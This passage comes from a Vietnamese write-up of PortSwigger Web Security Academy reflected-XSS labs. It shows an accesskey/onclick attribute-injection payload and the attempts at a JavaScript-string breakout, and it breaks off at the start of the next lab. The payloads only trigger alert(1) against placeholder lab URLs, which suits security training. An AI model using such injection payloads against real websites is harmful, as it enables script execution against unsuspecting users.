 Truy cập link payload sau: `https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)`

URL Decode: `https://YOUR-LAB-ID.web-security-academy.net/?'accesskey='x'onclick='alert(1)`

Nhấn Alt+X => LAB SOLVED!

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/7247517e-6e5f-4b0b-9974-d24786f31312)

***

## 12. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

* Content:
```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```
* Exploit:

Thực hiện search keywork `ndkhai`, quan sát trong source code

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/45f19e60-7aae-48ba-9c35-9dfab4b52981)

Thử payload `ndkhai'; alert(1)` => Thấy ký tự `'` bị escape:

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/63675120-aa64-4461-a2f6-fc6b9d9411c3)

Thử payload sau để thoát script cũ

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/58209569-bf1f-404c-ba61-0926bc1e4018)

LAB SOLVED!

![image](https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/d0530965-f866-40e9-8171-d5a99e345698)

***

## 13. Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

* Content:
```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```
* Exploit:
